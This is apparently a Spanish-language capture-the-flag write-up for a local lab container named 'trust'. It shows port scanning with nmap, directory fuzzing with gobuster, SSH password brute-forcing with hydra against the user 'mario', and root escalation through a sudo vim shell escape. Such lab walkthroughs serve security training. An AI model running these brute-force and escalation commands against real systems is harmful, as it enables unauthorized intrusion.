 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

![Pasted image 20250129163249](https://github.com/user-attachments/assets/90c23bdb-2ae9-4093-8e5a-db4f5ca2c964)

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.18.0.2
```

![Pasted image 20250129163344](https://github.com/user-attachments/assets/cc8d490d-087f-4f88-a79c-0d539683e013)

Hacemos fuzzing:

```Bash
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh
```
![Pasted image 20250129163713](https://github.com/user-attachments/assets/735bf5b0-3137-49bd-8df7-1eea577d0699)

Comprobamos el directorio:

![Pasted image 20250129163612](https://github.com/user-attachments/assets/9e1db405-f2ea-4378-84c2-331fd50ee6db)

Nos dice un nombre (Mario)

```Bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 64
```

![Pasted image 20250129163905](https://github.com/user-attachments/assets/eeaab2a1-c19a-411e-ba23-d399465d4887)

Nos conectamos con SSH

```Bash
ssh mario@172.18.0.2
```

![Pasted image 20250129163946](https://github.com/user-attachments/assets/16477f3d-fb19-4a7d-8846-f50e653a75f7)

Intentamos elevar privilegios

```Bash
sudo -l
```

![Pasted image 20250129164036](https://github.com/user-attachments/assets/31b94fbc-f85b-4e14-a1f5-13f25a594e48)

```Bash
sudo vim -c ':!/bin/bash'
```

![Pasted image 20250129164103](https://github.com/user-attachments/assets/b696e89f-0625-4fd9-9e07-b4f7b7910966)

o también:

```Bash
sudo -u root /usr/bin/vim
```

![Pasted image 20250129164139](https://github.com/user-attachments/assets/3c87b144-bf66-4b67-9627-7a70fecdc133)

```Bash
:!/bin/bash
```

![Pasted image 20250129164211](https://github.com/user-attachments/assets/0d3ef320-30bb-411c-a8f5-1510e99295d0)

![Pasted image 20250129164233](https://github.com/user-attachments/assets/10e9dea0-638c-4206-8225-eafaa57d0c31)

Otra forma de elevar:

```Bash
sudo -u root /usr/bin/vim -c ':!/bin/bash'
```

![Pasted image 20250129164322](https://github.com/user-attachments/assets/2c93b86b-0e35-4012-80b0-c8c82fecfece)

```Bash
whoami
```

![Pasted image 20250129164345](https://github.com/user-attachments/assets/865a8fbf-e26d-44f8-8d5b-6f6194e96d6d)
